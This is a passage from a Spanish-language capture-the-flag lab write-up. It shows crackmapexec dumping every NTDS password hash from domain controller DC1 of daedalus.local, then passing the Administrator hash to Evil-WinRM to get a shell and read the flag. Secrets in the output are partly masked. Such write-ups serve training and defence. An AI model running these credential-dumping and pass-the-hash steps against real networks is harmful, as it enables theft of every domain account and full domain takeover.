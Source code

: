 La contraseña descubierta para el usuario Administrator en el equipo DC1 es válida para la autenticación local. Sin embargo, al ser DC (Controlador de Dominio), existe la posibilidad de realizar un volcado del ntds (Servicio de directorio de Active Directory) para obtener todos los hashes de contraseñas almacenados en él. Esto proporcionaría acceso a las contraseñas de todos los usuarios del dominio.

Una vez obtenido el hash del usuario Administrator, podemos utilizarlo para autenticarnos en el equipo DC1 mediante Evil-WinRM, lo que nos brindará una sesión de PowerShell.

Además, si se realiza un volcado de los secretos LSA (Autoridad de seguridad local), es posible encontrar la contraseña en texto plano para el usuario Administrator. Esta contraseña también es válida, pero en este caso es a nivel de dominio. Utilizando esta contraseña, también podríamos conectarnos al DC1 utilizando Evil-WinRM.

```bash
❯ crackmapexec smb dc1.daedalus.local -u Administrator -p 'kF4d*********' --local-auth
SMB         daedalus.local  445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:DC1) (signing:True) (SMBv1:False)  
SMB         daedalus.local  445    DC1              [+] DC1\Administrator:kF4d********* (Pwn3d!)

❯ crackmapexec smb dc1.daedalus.local -u Administrator -p 'kF4d*********' --local-auth --ntds drsuapi
SMB         daedalus.local  445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:DC1) (signing:True) (SMBv1:False)
SMB         daedalus.local  445    DC1              [+] DC1\Administrator:kF4d********* (Pwn3d!)
SMB         daedalus.local  445    DC1              [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         daedalus.local  445    DC1              Administrator:500:aad3b435b514*****************ff633d308be8e06dbb4e2e88783533:::
SMB         daedalus.local  445    DC1              Guest:501:aad3b435b51404e*****************d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         daedalus.local  445    DC1              krbtgt:502:aad3b435b5140*****************:3e1e73de1f69e094386b8496fdbdaa90:::
SMB         daedalus.local  445    DC1              daedalus.local\elliot:1112:aad3b4*****************35b51404ee:74fdf381a94e1e446aaedf1757419dcd:::
SMB         daedalus.local  445    DC1              daedalus.local\svc_backup:1602:aad3b*****************04ee:f913cd9d773be0d48389d45a20b6364a:::
SMB         daedalus.local  445    DC1              daedalus.local\billing_user:1603:aad3b435b*****************c86ce4386582442450feed8ce53:::  
SMB         daedalus.local  445    DC1              DC1$:1000:aad3b435b51404eeaa*****************1e5aa0c0fd1fc33a8fb:::
SMB         daedalus.local  445    DC1              WEB01$:1109:aad3b435b51404ee*****************ef31ca13817f6d6c73b3c26b1a:::
SMB         daedalus.local  445    DC1              MEGAAIRLINE$:1108:aad3b435b51*****************1f2b98c63593309aa61ae76d:::
```

```
❯ evil-winrm -i dc1.daedalus.local -u Administrator -H a3ff63*****************  
PS C:\Users\Administrator\Documents> whoami
daedalus\administrator
PS C:\Users\Administrator\Documents> type ..\Desktop\flag.txt
ASCENSION{*****************}
PS C:\Users\Administrator\Documents>
```
